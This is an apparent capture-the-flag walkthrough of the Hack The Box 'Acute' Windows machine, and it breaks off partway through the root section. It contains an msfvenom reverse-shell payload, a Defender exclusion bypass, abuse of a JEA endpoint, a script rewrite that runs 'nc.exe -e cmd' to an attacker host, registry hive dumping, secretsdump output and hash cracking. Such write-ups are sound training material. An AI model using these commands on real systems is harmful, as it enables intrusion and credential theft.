







# Acute
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.145 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 18:20 BST
Nmap scan report for 10.10.11.145 (10.10.11.145)
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT    STATE SERVICE
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 33.16 seconds
```
```
└─$ nmap -Pn -p443 -sC -sV 10.10.11.145 -T4 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-27 18:21 BST
Nmap scan report for 10.10.11.145 (10.10.11.145)
Host is up (0.095s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2023-09-27T17:21:14+00:00; -41s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -41s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.34 seconds

```
- Web server

![]

- `feroxbuster`
```
└─$ feroxbuster -u https://atsserver.acute.local -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -k --depth 2

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://atsserver.acute.local
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      818l     1728w    26105c https://atsserver.acute.local/Acute/core.css
200      GET        2l       15w     1426c https://atsserver.acute.local/Acute/wp-embed.js
301      GET        2l       10w      167c https://atsserver.acute.local/aspnet_client => https://atsserver.acute.local/aspnet_client/
200      GET        2l      378w    11224c https://atsserver.acute.local/Acute/jquery-migrate.js

```

- Possible usernames
  - And `doc` file with default password
  - And info about remote training on https://atsserver.acute.local/Acute_Staff_Access


```
└─$ exiftool New_Starter_CheckList_v7.docx                                 
ExifTool Version Number         : 12.64
File Name                       : New_Starter_CheckList_v7.docx
Directory                       : .
File Size                       : 35 kB
File Modification Date/Time     : 2023:09:27 18:34:18+01:00
File Access Date/Time           : 2023:09:27 18:34:25+01:00
File Inode Change Date/Time     : 2023:09:27 18:34:19+01:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x079b7eb2
Zip Compressed Size             : 428
Zip Uncompressed Size           : 2527
Zip File Name                   : [Content_Types].xml
Creator                         : FCastle
Description                     : Created on Acute-PC01
Last Modified By                : Daniel
Revision Number                 : 8
Last Printed                    : 2021:01:04 15:54:00Z
Create Date                     : 2021:12:08 14:21:00Z
Modify Date                     : 2021:12:22 00:39:00Z
Template                        : Normal.dotm
Total Edit Time                 : 2.6 hours
Pages                           : 3
Words                           : 886
Characters                      : 5055
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 42
Paragraphs                      : 11
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : University of Marvel
Links Up To Date                : No
Characters With Spaces          : 5930
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0000
```

## Foothold
- User list based on `exiftool` hint
  - We also computer name `Acute-PC01`
```
AWallace
CHall
EDavies
IMonks
JMorgan
LHopkins
```

- The working creds are `EDavies:Password1!`





- Let's upgrade from webshell to reverse shell
  - Generate a payload using `msfvenom` and upload it to box
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LPORT=6666 LHOST=10.10.16.9 -f exe -o rev.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe

```

- But the shell doesn't work due to `Defender`


- We can check if there are any exclusion folders in `Defender` 

```
PS C:\Users\edavies\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths

    C:\Utils    REG_DWORD    0x0
    C:\Windows\System32    REG_DWORD    0x0
```

- Run the payload


- Suddenly, the shell closes
  - So I tried with the `nc` 
  - But it closes too





- I would probably have to try `meterpreter` and migrate to another process
  - I got the shell back and migrated


## User #1
- We have a different `ip`
```
C:\utils>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::9513:4361:23ec:64fd%14
   IPv4 Address. . . . . . . . . . . : 172.16.22.2
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.22.1

```

- Let's run `winpeas`
  - We have an open `rdp` session



- We can perform `screenshare` to check the `rdp` session



- And we see `powershell` terminal with `acute\monks` and his password `w3_4R3_th3_f0rce.` 
  - The creds are used to create a `PSSession` on `ATSSERVER`
  - And `dc_manage` configuration is used
  - Let's try the creds
  - `Enter-PSSession` doesn't work
```
PS C:\Windows\system32> $pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$pass = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
PS C:\Windows\system32> $cred = New-Object System.Management.Automation.PSCredential("acute\imonks", $pass)
$cred = New-Object System.Management.Automation.PSCredential("acute\imonks", $pass)
PS C:\Windows\system32> Enter-PSSession -ComputerName ATSSERVER -Credential $cred
Enter-PSSession -ComputerName ATSSERVER -Credential $cred
Enter-PSSession : Connecting to remote server ATSSERVER failed with the following error message : Access is denied. 
For more information, see the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -Credential $cred
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (ATSSERVER:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed
```

- Lets try to use `dc_manage` configuration
  - But it fails, since `imonks` doesn't have access to `Measure-Object` cmdlet
```
PS C:\Windows\system32> Enter-PSSession -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Enter-PSSession -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Enter-PSSession : The term 'Measure-Object' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 
again.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -Credential $cred -Configurat ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Measure-Object:String) [Enter-PSSession], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

- But `Invoke-Command` works
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
acute\imonks
```

- We can grab the flag
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { type C:\users\imonks\desktop\user.txt} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { type C:\users\imonks\desktop\user.txt} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
ad5911a771148082f9c073e069f023eb
```

## User #2
- The list of commands we can perform as `imonks`
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { Get-Command } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage

CommandType     Name                                               Version    Source               PSComputerName      
-----------     ----                                               -------    ------               --------------      
Cmdlet          Get-Alias                                          3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-ChildItem                                      3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Command                                        3.0.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Get-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Set-Content                                        3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Set-Location                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
Cmdlet          Write-Output                                       3.1.0.0    Microsoft.PowerSh... ATSSERVER           
```
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { Get-Alias} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { Get-Alias} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage

CommandType     Name                                               Version    Source               PSComputerName      
-----------     ----                                               -------    ------               --------------      
Alias           cat -> Get-Content                                                                 ATSSERVER           
Alias           cd -> Set-Location                                                                 ATSSERVER           
Alias           echo -> Write-Output                                                               ATSSERVER           
Alias           ls -> Get-ChildItem                                                                ATSSERVER           
Alias           pwd -> Get-Location                                                                ATSSERVER           
Alias           sc -> Set-Content                                                                  ATSSERVER           
Alias           type -> Get-Content                                                                ATSSERVER 
```

- We have a `Hyper-V`
  - But can't access it
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { ls '\program files'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage    
Invoke-Command -ScriptBlock { ls '\program files'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage


    Directory: C:\program files


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
d-----        21/12/2021     00:04                common files                       ATSSERVER                         
d-----        21/12/2021     00:11                Hyper-V                            ATSSERVER                         
d-----        15/09/2018     08:12                internet explorer                  ATSSERVER                         
d-----        01/02/2022     19:41                keepmeon                           ATSSERVER                         
d-----        21/12/2021     00:04                VMware                             ATSSERVER                         
d-----        20/12/2021     21:19                Windows Defender                   ATSSERVER                         
d-----        20/12/2021     21:12                Windows Defender Advanced Threat   ATSSERVER                         
                                                  Protection                                                           
d-----        21/12/2021     14:13                WindowsPowerShell                  ATSSERVER 
```

- And also the `wm.ps1` script on `imonks`' desktop
  - It contains `jmorgan`'s creds
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { ls '\users\imonks\desktop'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { ls '\users\imonks\desktop'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage


    Directory: C:\users\imonks\desktop


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        01/10/2023     10:04             34 user.txt                           ATSSERVER                         
-a----        11/01/2022     18:04            602 wm.ps1                             ATSSERVER
```
```
PS C:\Windows\system32> Invoke-Command -ScriptBlock { type '\users\imonks\desktop\wm.ps1'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { type '\users\imonks\desktop\wm.ps1'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

- `jmorgan` is local `Administrator`
```
PS C:\Windows\system32> net user jmorgan /domain
net user jmorgan /domain
The request will be processed at a domain controller for domain acute.local.

User name                    jmorgan
Full Name                    Joshua Morgan
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            21/12/2021 23:48:38
Password expires             Never
Password changeable          22/12/2021 23:48:38
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/01/2022 21:06:05

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         
The command completed successfully.

PS C:\Windows\system32> net localgroup Administrators
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
ACUTE\Domain Admins
ACUTE\jmorgan
Administrator
The command completed successfully.

```

- We can try changing the content of the script and then run it
```
PS C:\utils> Invoke-Command -ScriptBlock { ((cat c:\users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'c:\utils\nc.exe -e cmd 10.10.16.9 7777') | sc -Path c:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { ((cat c:\users\imonks\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'c:\utils\nc.exe -e cmd 10.10.16.9 7777') | sc -Path c:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
PS C:\utils> Invoke-Command -ScriptBlock { type 'c:\users\imonks\desktop\wm.ps1'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { type 'c:\users\imonks\desktop\wm.ps1'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {c:\utils\nc.exe -e cmd 10.10.16.9 7777} -ComputerName Acute-PC01 -Credential $creds

PS C:\utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
```


## User #3
- Since we are local admin, we can dump the hashes
```
C:\Users\jmorgan>cd c:\utils
cd c:\utils

c:\Utils>reg save HKLM\sam sam.hive
reg save HKLM\sam sam.hive
The operation completed successfully.

c:\Utils>reg save HKLM\system sys.hive
reg save HKLM\system sys.hive
The operation completed successfully.

c:\Utils>reg save HKLM\security security.hive
reg save HKLM\security security.hive
The operation completed successfully.

c:\Utils>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8A9A-E124

 Directory of c:\Utils

01/10/2023  11:45    <DIR>          .
01/10/2023  11:45    <DIR>          ..
01/10/2023  11:31            45,272 nc.exe
01/10/2023  10:19             7,168 rev.exe
01/10/2023  11:45            57,344 sam.hive
01/10/2023  11:45            45,056 security.hive
01/10/2023  11:45        12,140,544 sys.hive
01/10/2023  10:25         2,388,480 winpeas.exe
               6 File(s)     14,683,864 bytes
               2 Dir(s)   8,145,170,432 bytes free


```

- We can download them using meterpreter session
```
meterpreter > download *.hive
[*] downloading: .\sam.hive -> /home/kali/sam.hive
[*] Completed  : .\sam.hive -> /home/kali/sam.hive
[*] downloading: .\security.hive -> /home/kali/security.hive
[*] Completed  : .\security.hive -> /home/kali/security.hive
[*] downloading: .\sys.hive -> /home/kali/sys.hive
[*] Completed  : .\sys.hive -> /home/kali/sys.hive

```

- Dump the hashes via `impacket-secretsdump`
```
└─$ impacket-secretsdump -system sys.hive  -sam sam.hive -security security.hive LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x44397c32a634e3d8d8f64bff8c614af7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a29f7623fd11550def0192de9246f46b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:24571eab88ac0e2dcef127b8e9ad4740:::
Natasha:1001:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:fea3d42f1345540c9139026b04d7dacaf74ac50fea3909d5aa92d96842a17687ba76231aabf9918d7bb803c0cffab7e37c82401c6c38d1b5a22ebdd305f00168f2be133b8cb9cdd7b151594d018c6e8686f9f122ceeeaadeec989afcde927ca1bbe8ebc9a27f0c2323d2f52826d37ca980064d78a2d6535f66e2b4c3472d9f21e110b485fbaa8e4baf3c0a3f9bfdf732a4ea6ee489c226f56f1c994195914099fbfdfde3cb6e3edf836d718cb478a02ef14cc7697c5f181e4f9ce8ca7dc96cd0b815dbc093a46a0ac955c6e06fa0d33214264a99a6a662325992a3bf416b83f5001c4ffc02e29bc575726baa0f277bea
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:99dc50a2db7d91abd91fbc8a597c6eb5
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x574d0cc939c9f986cba32d1546a7fa28747425e0
dpapi_userkey:0x4a77ea6673a027ecd81e4ca010b1d3f70fe1d9cd
[*] NL$KM 
 0000   62 2A 29 8D F9 77 CC DD  EE EB 23 20 B2 E2 AF 59   b*)..w....# ...Y
 0010   0B F6 33 E0 95 5D B0 03  B1 01 85 55 9D 16 64 4D   ..3..].....U..dM
 0020   53 1F 93 7B FB EF 2B F7  6E 76 B1 02 3D 63 CC DF   S..{..+.nv..=c..
 0030   F0 35 6F E3 19 8A 69 C1  2E F6 78 80 45 51 EE 0A   .5o...i...x.EQ..
NL$KM:622a298df977ccddeeeb2320b2e2af590bf633e0955db003b10185559d16644d531f937bfbef2bf76e76b1023d63ccdff0356fe3198a69c12ef678804551ee0a
[*] Cleaning up... 
                                                                     
```

- Let's crack the password
```
└─$ hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1436/2936 MB (512 MB allocatable), 2MCU
...

a29f7623fd11550def0192de9246f46b:Password@123             
Approaching final keyspace - workload adjusted.           
...
```

- The password for `Administrator` is `Password@123`
  - Let's check for password-reuse
  - We have `awallace` and `lhopkins`
```
PS C:\utils> Invoke-Command -ScriptBlock { ls C:\users\ } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { ls C:\users\ } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage


    Directory: C:\users


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
d-----        20/12/2021     23:30                .NET v4.5                          ATSSERVER                         
d-----        20/12/2021     23:30                .NET v4.5 Classic                  ATSSERVER                         
d-----        20/12/2021     20:38                Administrator                      ATSSERVER                         
d-----        21/12/2021     23:31                awallace                           ATSSERVER                         
d-----        21/12/2021     16:01                imonks                             ATSSERVER                         
d-----        22/12/2021     00:11                lhopkins                           ATSSERVER                         
d-r---        20/12/2021     20:38                Public                             ATSSERVER 
```

- Let's start with `awallace`
  - And the creds work
```
PS C:\utils> $pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$pass = ConvertTo-SecureString "Password@123" -AsPlainText -Force
PS C:\utils> $cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
$cred = New-Object System.Management.Automation.PSCredential("ACUTE\awallace", $pass)
PS C:\utils> Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
Invoke-Command -ScriptBlock { whoami } -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
acute\awallace
PS C:\utils> 
```
## Root
- We have an interesting folder in `Program files` named `keepmeon`
  - It contains a `bat` that runs every 5 minutes which calls `bat` files inside the folder
```
PS C:\utils> Invoke-Command -ScriptBlock { ls '\program files\'} -ComputerName ATSSERVER -Credential $cred -ConfigurationName dc_manage
